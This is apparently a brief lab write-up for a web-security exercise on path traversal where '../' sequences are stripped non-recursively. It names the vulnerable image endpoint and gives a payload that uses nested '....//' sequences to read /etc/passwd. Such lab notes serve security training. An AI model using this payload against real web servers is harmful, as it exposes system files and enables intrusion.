 # Lab: File path traversal, traversal sequences stripped non-recursively

## Analysis: 

....//

/image?filename=64.jpg

/var/www/images

## Payload:

/image?filename=....//....//....//etc/passwd 

